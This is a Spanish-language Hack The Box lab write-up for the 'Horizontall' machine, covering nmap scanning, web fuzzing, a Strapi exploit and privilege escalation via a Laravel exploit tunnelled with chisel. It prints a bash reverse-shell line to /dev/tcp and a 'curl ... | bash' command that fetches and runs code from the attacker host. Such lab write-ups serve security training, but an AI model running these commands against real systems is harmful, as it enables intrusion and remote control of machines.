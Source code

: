 ```yaml
---
layout:   post
title:    "Write Up Horizontal"
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Strapi,Write-Up-Machine,Starting-Point,OSCP,eJPT]
---
```

![list](/assets/img/horizontal/Captura%20de%20pantalla%20(290).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.11.105 -oG allports
```

![list](/assets/img/horizontal/Parrot-2022-12-19-14-03-55.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p21,80 10.10.11.105 -oN target -Pn
```

![list](/assets/img/horizontal/Parrot-2022-12-19-14-04-49.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb, como encontramos version vulnerable del srvicio ftp con serasploit tambien vamos a investigar ese vector .

![list](/assets/img/horizontal/Parrot-2022-12-19-14-07-23.png){:.lead width="800" height="100" loading="lazy"}

Whatweb nos  esta aplicando un reirerct al dominio horizontall.htb por lo que lo ingresamos al `/etc/hosts`.
{:.note}



Tambien podemos fuzzear los directorioo  para ver que informacion nos entrega, que la web de horizontall nada funciona.

![list](/assets/img/horizontal/Parrot-2022-12-19-14-30-41.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
En contramos unos directorips `/js` que vamos a grepearmanualmente de la siguiente forma.

```bash
curl -s -X GET "http://horizontall.htb/ | htmlq -p | batcat -l html
```

{:.note}
Esto nod devuelve dos ruta `/js/chunk-vendors.0e02b89e.js` y `/js/app.c68eb462.js` los cuales vamos a investigar pra ver que informacion podemos recolectar.

Entre tanta maraña d informcion encontramos un subdominio `api-prod.horizontal.htb/reviews` en cual pegarmos en el `/etc/hosts`

![list](/assets/img/horizontal/Parrot-2022-12-19-14-38-55.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En contramos los nombres de tres usuarios que son `wail`,`doe`y`john`.

Fuzzeamos otra vez la ruta de api y cada rita interna que tenga esa tambien lo que nos da como resutado que encontramos un login que funciona con gestor de  contenido llamado strapi que vamos a buscar vulnerabiliudades con searchsploit.

![list](/assets/img/horizontal/Parrot-2022-12-19-15-08-51.png){:.lead width="800" height="100" loading="lazy"}
{:.note}
Nos decargamos el script y y nos da un a shell pero que nos vamos acambiar a una propia que nos vamos a poner ala eschucha en el puerto 443 y nos vamos a crear una archivo `shell.html` que contiene el comado para mandarnos una [reverse-shell] `bash -i >& /dev/tcp/10.10.10.14 0>&1` y lo ejecutamos de la siguiente manera deuna ves se  ejecuta ya que esta con la tuberia y el comado bash. 

![list](/assets/img/horizontal/Parrot-2022-12-19-15-22-40.png){:.lead width="800" height="100" loading="lazy"}


```bash
curl http://10.10.10.14/shell.html | bash
```

[reverse-shell]:(https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
{:.note}
Podemos buscar la flag el usuario e bajos privileguios en el directorio el usuario `strapi`.

![list](/assets/img/horizontal/Parrot-2022-12-19-15-26-11.png){:.lead width="800" height="100" loading="lazy"}

***

## Escalacion de privilegios 

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion.

Como no encontramos nada vemos los puetos que estan abiertos internamente y esta el 8000 si vemos con curl la version es Laravel v8 (PHP v7.4.18).

![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos lo traemos con [chisel] y buscamos en exploit para ejecutarlo.


De la misma manera que antes solo que en ves id nos mandamos una reverse-shell y ya somos root.

![list](/assets/img/horizontal/Parrot-2022-12-19-15-54-05.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Horizontal de Hack The Box. 🎉
```
{:.centered}
***

